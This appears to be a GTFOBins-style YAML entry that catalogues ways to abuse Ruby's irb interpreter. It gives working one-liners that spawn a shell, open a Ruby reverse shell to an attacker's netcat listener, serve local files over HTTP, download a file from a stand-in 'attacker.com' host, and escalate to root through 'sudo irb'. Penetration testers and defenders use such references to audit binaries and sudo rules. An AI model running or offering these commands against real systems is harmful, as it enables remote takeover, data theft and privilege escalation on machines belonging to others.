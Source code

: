 ```yaml
---
functions:
  shell:
    - description: |
        `irb` lets you execute ruby commands as well as shell commands with `exec`.
      code: |
        irb 
        exec '/bin/bash'
  reverse-shell:
    - description: Run `nc -lvp RPORT` on the attacker box to receive the shell.
      code: |
        export RHOST='127.0.0.1'
        export RPORT=9000
        irb
        require 'socket'; s= Socket.new 2,1; s.connect Socket.sockaddr_in ENV['RPORT'], ENV['RHOST']; [0,1,2].each { |fd| syscall 33, s.fileno, fd }; exec '/bin/sh -i'
  file-upload:
    - description: Serve files in the local folder running an HTTP server on port 8080.
      code: |
        irb
        require 'webrick'; WEBrick::HTTPServer.new(:Port => 8000, :DocumentRoot => Dir.pwd).start;
  file-download:
    - description: Fetch a remote file via an HTTP GET request and store it in `PWD`.
      code: |
        export URL=http://attacker.com/file_to_get
        export FILE=file_name
        irb
        require 'open-uri'; download = open(ENV['URL']); IO.copy_stream(download, ENV['FILE'])
  sudo:
    - code: |
        sudo irb
        exec '/bin/bash'
---
```


